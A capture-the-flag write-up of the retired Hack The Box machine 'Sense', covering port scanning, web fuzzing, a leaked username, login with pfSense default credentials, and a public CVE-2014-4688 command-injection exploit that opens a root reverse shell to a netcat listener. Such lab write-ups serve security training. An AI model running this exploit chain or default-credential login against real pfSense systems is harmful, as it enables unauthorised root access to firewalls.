



# Sense by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Sense  | 10.10.10.60  | FreeBSD            | 20       | 2.9      | 10217       | 10655       | Yes       | 2017-10-21     | 2018-03-24     | No         | 111          |

## Summary
1. Scan ports -> 80,443
2. Enumerate port 443 -> `/system-users.txt`
3. Read `/system-users.txt` -> User `rohit`
4. Look for `pfsense` default password -> `pfsense`
5. Login as `rohit:pfsense` -> Version of `pfsense` and `FreeBSD` OS
6. Exploit `CVE-2014-4688` -> Reverse shell as `root` (User and root flag)

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Linux.
```bash
❯ ping -c 1 10.10.10.60
PING 10.10.10.60 (10.10.10.60) 56(84) bytes of data.
64 bytes from 10.10.10.60: icmp_seq=1 ttl=63 time=36.3 ms
```

### Nmap port scan
First, we will scan the host for open ports.
```bash
❯ sudo nmap -p- -sS --min-rate 5000 10.10.10.60 -v -Pn -n -oG Enum/allPorts
```
With the utility `extractPorts` we list and copy the open ports:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.10.60 

	[*] Open ports:  80,443 


[*] Ports have been copied to clipboard...
```
Run a detailed scan on the open ports:
```bash
❯ nmap -p80,443 -sVC 10.10.10.60 -n -oN Enum/targeted
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_http-title: Login
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
```

#### Final nmap report
| Port  |  Service  |  Version  | Extra |
| :-: | :-: | :-: | :-: |
| 80 | http | lighttpd 1.4.35 | Redirects to port 443 |
| 443 | ssl/http | lighttpd 1.4.35 | Self-signed cert |

### Port 443 Enumeration
#### Technology scan
```bash
❯ whatweb https://10.10.10.60
https://10.10.10.60 [200 OK] Cookies[PHPSESSID,cookie_test], Country[RESERVED][ZZ], HTTPServer[lighttpd/1.4.35], HttpOnly[PHPSESSID], IP[10.10.10.60], JQuery, PasswordField[passwordfld], Script[text/javascript], Title[Login], X-Frame-Options[SAMEORIGIN], lighttpd[1.4.35]
```
Toguether with `wappalyzer` extension:
| Technology |  Version  | Detail |
| :-: | :-: | :-: |
| lighttpd | 1.4.35 | - |
| JQuery | 1.6.2 | - |
| PHP | - | - |

#### Web content fuzzing
We will start with a blind scan:
```bash
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 200 --hc 404  "https://10.10.10.60/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.10.60/FUZZ
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000001099:   301        0 L      0 W        0 Ch        "classes"         
000001325:   301        0 L      0 W        0 Ch        "css"             
000001757:   200        6 L      29 W       1405 Ch     "favicon.ico"     
000002185:   301        0 L      0 W        0 Ch        "includes"        
000002191:   200        24 L     32 W       329 Ch      "index.html"      
000002316:   301        0 L      0 W        0 Ch        "javascript"      
000002243:   301        0 L      0 W        0 Ch        "installer"       
000002192:   200        173 L    425 W      6690 Ch     "index.php"       
000004136:   301        0 L      0 W        0 Ch        "themes"          
000004236:   301        0 L      0 W        0 Ch        "tree"            
000004536:   301        0 L      0 W        0 Ch        "widgets"         
000004646:   200        16 L     26 W       384 Ch      "xmlrpc.php"
```
Now, we will enumerate `.txt` files:
```bash
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -L -t 200 --hc 404 --hh 6690  "https://10.10.10.60/FUZZ.txt"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.10.60/FUZZ.txt
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                      
=====================================================================

000001268:   200        9 L      40 W       271 Ch      "changelog"                                                                                                  
000120222:   200        6 L      12 W       106 Ch      "system-users"             
```
We can see that file `changelog.txt` returns a 200 response, reading its content:
```bash
❯ curl "https://10.10.10.60/changelog.txt" -k
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```
We see that it mention 2 of 3 vulnerabilites patched, meaning there is still one vulnerability left to be patched.
Next, we see the file `system-users.txt` returns a 200 response, reading its content:
```bash
❯ curl "https://10.10.10.60/system-users.txt" -k -s
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```
We can enumerate the username `Rohit` and the file says that the password is the default one for the company.
Finally, we fuzz `.php` files:
```bash
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 200 --hc 404  "https://10.10.10.60/FUZZ.php"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.10.60/FUZZ.php
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000001583:   200        173 L    425 W      6689 Ch     "edit"            
000001714:   200        173 L    425 W      6689 Ch     "exec"            
000002007:   200        173 L    425 W      6690 Ch     "graph"           
000002063:   200        173 L    425 W      6689 Ch     "help"            
000002189:   200        173 L    425 W      6690 Ch     "index"           
000002449:   200        173 L    425 W      6692 Ch     "license"         
000003130:   200        173 L    425 W      6688 Ch     "pkg"             
000003955:   200        173 L    425 W      6690 Ch     "stats"           
000003957:   200        173 L    425 W      6691 Ch     "status"          
000004046:   200        173 L    425 W      6691 Ch     "system"          
000004645:   200        16 L     26 W       384 Ch      "xmlrpc"   
```
All the `.php` files redirect to the login page, all except `xmlrpc.php` which returns this output:
```bash
❯ curl "https://10.10.10.60/xmlrpc.php" -k
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
<fault>
  <value>
    <struct>
      <member>
        <name>faultCode</name>
        <value><int>105</int></value>
      </member>
      <member>
        <name>faultString</name>
        <value><string>XML error: Invalid document end at line 1</string></value>
      </member>
    </struct>
  </value>
</fault>
</methodResponse>
```
We can assume it expects a file uploaded via POST.

#### Manual enumeration
If we open `index.php` we can see:

First, we need to know what is `pfsense`:
> pfSense® software is a free, open source customized distribution of FreeBSD specifically tailored for use as a firewall and router that is entirely managed via web interface. 
> In addition to being a powerful, flexible firewalling and routing platform, it includes a long list of related features and a package system allowing further expandability without adding bloat and potential security vulnerabilities to the base distribution. 

Now, remember we already know the username `Rohit`, let's search for default credentials of pfsense:

So we can try the credentials `Rohit:pfsense`. That credential failed, but `rohit:pfsense` did work. We got access to the page content:

As we researched earlier, pfsense is an opensource firewall, and from this webpage we can manage it and its configuration. Also in the `version` field, we can see that the machine we are attacking is a `FreeBSD 8.3-RELEASE-p16` and it is running `pfSense` version `2.1.3`:
```bash
❯ searchsploit pfsense 2.1.3
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                       | php/webapps/43560.py
------------------------------------------------------------------------------------- ---------------------------------
❯ searchsploit -x php/webapps/43560.py | head -n 27
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''
```

## Reverse sell through CVE-2014-4688
We found an exploit tested on `FreeBSD 8.3-RELEASE-p16`  for `pfSense <= 2.1.3`, so this exploit si perfect for our case:
```bash
# Attacking terminal
❯ cd Exploits
❯ searchsploit -m php/webapps/43560.py
❯ cd ..
❯ python3 Exploits/43560.py --rhost 10.10.10.60 --lhost 10.10.14.2 --lport 3333 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
# Listenning terminal
❯ nc -nlvp 3333
Connection from 10.10.10.60:61357
sh: can't access tty; job control turned off
# whoami
root
# ifconfig | grep "10.10.10.60"
	inet 10.10.10.60 netmask 0xffffff00 broadcast 10.10.10.255
```
We obtianed root access on 10.10.10.60, but there is no `user.txt`, let's check the machine's users:
```bash
# cat /etc/passwd | grep "sh$"    
cat /etc/passwd | grep "sh$"
root:*:0:0:Charlie &:/root:/bin/sh
# ls /home
ls /home
.snap	rohit
# ls /home/rohit
ls /home/rohit
.tcshrc		user.txt
```
We found both `user.txt` and `root.txt` (on `/root`), so we pwned the machine `Sense`.

## CVE
### [CVE-2014-4688](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-4688)
pfSense before 2.1.4 allows remote authenticated users to execute arbitrary commands via (1) the hostname value to diag_dns.php in a Create Alias action, (2) the smartmonemail value to diag_smart.php, or (3) the database value to status_rrd_graph_img.php. 

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | 8721327cc232073b40d27d9c17e7348b | No | 13-06-2022|
| Root | d08c32a5d4f8c8b10e76eb51a69f1a86 | No | 13-06-2022|

## References
- https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-4688